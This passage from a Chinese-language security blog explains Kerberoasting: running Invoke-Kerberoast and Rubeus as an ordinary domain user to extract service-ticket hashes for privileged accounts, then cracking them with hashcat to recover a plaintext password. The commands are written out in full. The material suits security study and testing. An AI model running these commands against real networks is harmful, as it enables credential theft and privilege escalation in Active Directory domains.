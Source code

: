 自动实现，并且不需要mimikatz，普通用户权限即可，参考资料：

http://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/

代码地址：

https://github.com/EmpireProject/Empire/commit/6ee7e036607a62b0192daed46d3711afc65c3921

使用`System.IdentityModel.Tokens.KerberosRequestorSecurityToken`请求TGS，在返回结果中提取出TGS，输出的TGS可选择John the Ripper或Hashcat进行破解

实例演示：

在域内一台主机上以普通用户权限执行：

```
Invoke-Kerberoast -AdminCount -OutputFormat Hashcat | fl
```

-AdminCount表示选择高权限的用户

输出结果如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-1-15/2-2.png)

只提取出hash的参数如下：

```
Invoke-Kerberoast -AdminCount -OutputFormat Hashcat | Select hash | ConvertTo-CSV -NoTypeInformation
```

输出结果如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-1-15/2-3.png)

使用hashcat破解的参数如下：

```
hashcat -m 13100 /tmp/hash.txt /tmp/password.list -o found.txt --force
```

破解结果如下图，成功获得明文口令`MySQLAdmin111!`

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-1-15/2-4.png)

**注：**

Rubeus也可以实现Invoke-Kerberoast的功能，地址如下：

https://github.com/GhostPack/Rubeus

参数如下：

```
Rubeus.exe kerberoast
```

## 0x06 Kerberoasting的后门利用
---
